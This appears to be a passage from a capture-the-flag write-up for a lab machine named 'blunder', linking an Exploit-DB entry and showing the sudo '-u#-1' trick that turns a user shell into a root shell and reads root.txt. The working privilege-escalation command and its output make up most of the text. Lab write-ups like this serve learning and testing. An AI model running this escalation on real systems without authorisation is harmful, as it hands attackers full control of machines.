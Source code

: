 > [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

When we do `sudo` it doesn't check if the user even exists or not, so it tends to execute it with the specified argument as a user itself. Now, -u is used to define the user itself, #-1 will return 0, the default value of root itself.

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# cd /root
cd /root
root@blunder:/root# cat root.txt
cat root.txt
```